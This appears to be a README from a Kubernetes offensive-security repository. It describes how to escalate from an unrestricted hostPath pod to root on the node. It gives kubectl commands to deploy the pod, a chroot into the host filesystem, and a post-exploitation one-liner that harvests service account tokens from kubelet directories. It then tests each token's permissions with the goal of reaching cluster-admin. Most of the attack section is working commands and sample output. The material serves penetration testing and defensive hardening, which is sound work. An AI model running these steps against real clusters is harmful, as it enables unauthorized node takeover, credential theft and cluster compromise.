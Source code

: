 # You can create a pod with only a hostpath mount, but it is unrestricted 
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 

[pod-everything-allowed.yaml](pod-everything-allowed.yaml)

### Create a pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-everything-allowed.yaml [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/everything-allowed/pod-everything-allowed.yaml [-n namespace] 
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-everything-allowed -- chroot /host

```

### Post exploitation
```bash
# You now have read/write access to the nodes's filesystem, mounted in /host within your pod. 
cd /host

# Example privesc path: Hunt for tokens in /host/var/lib/kubelet/pods/
tokens=`find /host/var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token

#Copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /host/var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```
   
Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/